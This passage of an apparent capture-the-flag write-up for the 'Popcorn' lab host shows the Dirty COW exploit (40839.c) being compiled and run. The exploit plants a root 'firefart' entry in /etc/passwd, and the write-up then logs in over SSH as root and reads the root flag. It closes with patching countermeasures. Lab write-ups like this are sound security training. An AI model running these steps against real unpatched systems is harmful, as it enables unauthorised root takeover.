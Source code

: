 Next, I compiled and ran it:

```
www-data@popcorn:/dev/shm$ gcc -pthread 40839.c -o dirty -lcrypt
www-data@popcorn:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiKxInqPfoIPg:0:0:pwned:/root:/bin/bash

mmap: b7888000
```

At this point, I was able to login via SSH as the `firefart` user with the password I specified when running the exploit:

```
$ ssh firefart@10.10.10.6
firefart@10.10.10.6's password:
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sun Sep  6 23:06:02 EEST 2020

  System load: 1.06              Memory usage: 7%   Processes:       114
  Usage of /:  6.2% of 14.80GB   Swap usage:   0%   Users logged in: 1

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sun Sep 24 18:01:48 2017
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~# cat /root/root.txt
f122331023a9393319a0370129fd9b14
firefart@popcorn:~#
```

As seen above, the `firefart` user had root privileges indicating a full compromise of the popcorn host.

## Countermeasures

* Update the torrent hoster software to the latest version currently available. If the software happens to be at the latest version, then patch the vulnerability where webshells can be uploaded as screenshots by spoofing the MIME type. Ideally, the file contents should be checked upon upload as well as filename extensions.
* Update the Linux PAM module to the latest version currently available so that privilege escalation via Linux PAM abuse (CVE-2010-0832) can be patched.
* Update the operating system to the latest version currently available so that it won't be vulnerable to the Dirty Cow privilege escalation exploit.
